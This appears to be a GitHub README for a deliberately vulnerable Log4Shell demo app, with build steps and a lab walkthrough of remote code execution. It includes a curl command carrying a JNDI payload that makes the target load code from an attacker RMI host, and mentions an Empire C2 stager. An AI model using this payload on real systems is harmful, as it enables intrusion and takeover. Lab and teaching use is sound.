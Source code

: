 # log4shell vulnerable app

This is a basic, minimal, intentionally vulnerable Java web application
including a version (2.14.1) of the [log4j](https://en.wikipedia.org/wiki/Log4j)
library affected by the infamous
[log4shell](https://en.wikipedia.org/wiki/Log4Shell) (CVE-2021-44228)
vulnerability.

## build and run instructions

Gradle wrapper should solve everything. Simply git clone the repo:

```
git clone https://github.com/tothi/log4shell-vulnerable-app
```

And in the project dir with the file [build.gradle](./build.gradle),
simply run:

```
./gradlew appRun
```

or on Windows platform:

```
.\gradlew.bat appRun
```

(JDK is needed.)

The vulnerable application should listen on _all_ interfaces by
default (DANGEROUS behavior if you run it on a production box).

It is available on the URL:

```
http://<IP_ADDR>:8888/app/
```

Note, that the log4j vulnerability triggers only when the app performs
some log4j logging activity. In this demo app, it is active when accessing
the URL:

```
http://<IP_ADDR>:8888/app/servlet
```

and passing a string in the Header "x-log". (This is what gets logged.)
For example, using curl:

```
curl http://<IP_ADDR>:8888/app/servlet -H 'x-log: <payload>'
```

This highlights that __detecting the log4j vulnerability is not obvious at all__.

## exploiting the RCE

Here are some instructions on how to exploit the RCE (even on up-to-date
default Java configurations with TrustURLCodebase set to false).
Tested on Linux and Windows with Java 11.0.1[23].

Simply use the [JNDI Injection Exploit Kit](https://github.com/welk1n/JNDI-Injection-Exploit) by welk1n or a more recent [fork](https://github.com/pimps/JNDI-Exploit-Kit) by pimps.

Steps to perform (in this example, target host is 192.168.56.101 and attacker gost is 192.168.56.1):

1. Launch the vulnerable web app with `.\gradlew.bat appRun`. It listens
on 192.168.56.101:8888 and uses Tomcat 8.5 as a backend. Tomcat 8 (in the classpath) is mandatory for the javax.el.ELProcessor RMI exploit path (supported by the current version of the JNDI Injection Exploit Kit).

2. Launch the JNDI Injection Exploit Kit on the attacker host after building with `mvn package` with `java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'calc.exe'` (the payload will execute calc.exe on the target). Helper servers are started now on 192.168.56.1. Assuming the RMI url for trustURLCodeBase false config is `rmi://192.168.56.1:1099/xzmtee`.

3. Trigger the exploit by sending the malicious payload through the "x-log" header: `curl http://192.168.56.101:8888/app/servlet -H 'x-log: ${jndi:rmi://192.168.56.1:1099/xzmtee}`

4. The app should use the vulnerable log4j for logging the contents of the "x-log" header. While logging, it looks up the referenced RMI URL, and the JNDI Kit sends the RCE payload classloading reference.

5. Note, that instead of logging the actual content of the "x-log" header, the referenced class name ("javax.el.ELProcessor") gets logged.

6. On the target host, calc.exe should be spawned, reaching RCE.

![](./log4shell_rce_demo.png)

UPDATE: here is an extra PoC screenshot for those who are curious and doubt whether launching a calc.exe is useful for anything at all. In this screenshot, replaced the calc.exe payload with an Empire stager giving a full featured C2 Empire Agent (also bypassing up-to-date Windows Defender).

![](./log4shell_rce_demo_empire.png)

